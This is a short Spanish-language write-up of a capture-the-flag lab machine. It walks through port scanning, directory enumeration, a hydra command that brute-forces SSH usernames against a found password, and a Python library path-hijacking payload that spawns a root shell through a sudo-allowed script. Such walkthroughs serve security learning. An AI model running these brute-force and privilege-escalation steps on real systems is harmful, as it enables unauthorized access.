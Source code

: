 # Herramientas
- Nmap
- Gobuster
- Hydra
# Procedimiento
Escaneamos los puertos y vemos que están abiertos el puerto 22 y 80. 
![[Pasted image 20250716184251.png]]

Visitamos la página pero es el archivo predeterminado de Apache, por lo que procedemos a utilizar gobuster.
![[Pasted image 20250716184503.png]]

Vemos que hay una directorio llamado `index.php`:
![[Pasted image 20250716184202.png]]

Esto podría ser una contraseña, así que se utiliza hydra para encontrar el usuario de esta contraseña.
Los parámetros son:
- -L: Listado de usuarios
- -p: Una sola contraseña
```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.3 -t  
20
```

Con esto, logramos encontrar el usuario en cuestión:
![[Pasted image 20250716184444.png]]

Una vez ingresando a la máquina, ocupamos `sudo -l` para ver qué permisos tenemos.
![[Pasted image 20250716185400.png]]

Vemos que hay un script, le hacemos `cat` y...
![[Pasted image 20250716185432.png]]

Hay un código en python que importa una librería... Entonces podríamos crear un archivo en ese mismo directorio que se llame `shutil` para reemplazar esa librería y le pondemos código malicioso (este tipo de ataque se le dice Path Hijacking):
```python
import os
os.system("bash")
```

Con esto, volvemos a nuestro directorio inicial y colocamos lo siguiente:
```bash
sudo /usr/bin/python3 /opt/script.py
```

Y ya con esto, hemos conseguido elevar privilegios en esta máquina :3
![[Pasted image 20250716185649.png]]